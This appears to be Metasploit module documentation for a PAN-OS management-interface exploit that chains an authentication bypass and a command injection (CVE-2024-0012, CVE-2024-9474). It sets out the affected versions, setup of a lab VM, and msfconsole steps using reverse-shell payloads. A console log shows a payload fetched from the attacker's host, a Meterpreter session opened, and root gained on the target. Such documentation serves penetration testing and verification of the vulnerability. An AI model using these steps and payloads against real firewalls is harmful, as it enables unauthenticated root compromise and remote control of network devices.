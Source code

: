 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following versions are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`, with the
payloads `cmd/linux/http/x64/meterpreter_reverse_tcp`, `md/linux/http/x64/meterpreter/reverse_tcp`,
and `cmd/unix/reverse_bash`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Options

### WRITABLE_DIR
The full path of a writable directory on the target. By default it will be `/var/tmp`. The exploit will write the
payload as a series of chunks to this location, before executing the payload. The written artifacts are then deleted.

## Scenarios

### Default

```
msf exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.86.100   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host
   WRITABLE_DIR  /var/tmp         yes       The full path of a writable directory on the target.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      pHLZiKRnmfR      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.100:443 - The target is vulnerable.
msf exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 7...
[*] Uploading payload chunk 2 of 7...
[*] Uploading payload chunk 3 of 7...
[*] Uploading payload chunk 4 of 7...
[*] Uploading payload chunk 5 of 7...
[*] Uploading payload chunk 6 of 7...
[*] Uploading payload chunk 7 of 7...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.100
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.100:54266) at 2024-11-21 16:35:38 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.100
OS           : Red Hat  (Linux 4.18.0-240.1.1.28.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
